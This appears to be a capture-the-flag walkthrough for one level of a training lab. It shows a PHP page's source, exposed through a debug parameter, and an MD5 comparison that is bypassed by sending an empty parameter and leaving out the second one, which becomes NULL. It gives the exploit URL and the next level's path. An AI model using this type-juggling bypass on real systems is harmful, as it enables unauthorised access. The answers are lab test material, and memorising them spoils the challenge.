 # Level-26

Level26-27

Send this request:

```text
https://matrix.voorivex.academy/the-final-fight-0a9fe5e4822afb91b8683e3d332h263h/?show-me-the-codes
```

you will get a php code:

```php
<?php
if (isset($_GET['show-me-the-codes'])) {
    show_source("index.php");
    exit();
}

if ($_GET['code1'] !== $_GET['code2']) {
    if (md5($_GET['code1']) === md5($_GET['code2'])) {
        require_once('next.php');
        die($next);
    }
}


?>
```

we need to provide two values which are different but has the same hash value
the best example for it could be providing a `NULL` and empty value
i mean you should send an empyt string and not sending the second paramter so it becomes NULL
now PHP calculates the MD5 of NULL and empty string that is a same value `d41d8cd98f00b204e9800998ecf8427e`

```text
https://matrix.voorivex.academy/the-final-fight-0a9fe5e4822afb91b8683e3d332h263h/?code1=
```

now you will get this :

```text
/the-final-fight-57a31594d5784b29e02960fd427f8703
```

go to:

```text
https://matrix.voorivex.academy/the-final-fight-57a31594d5784b29e02960fd427f8703
```





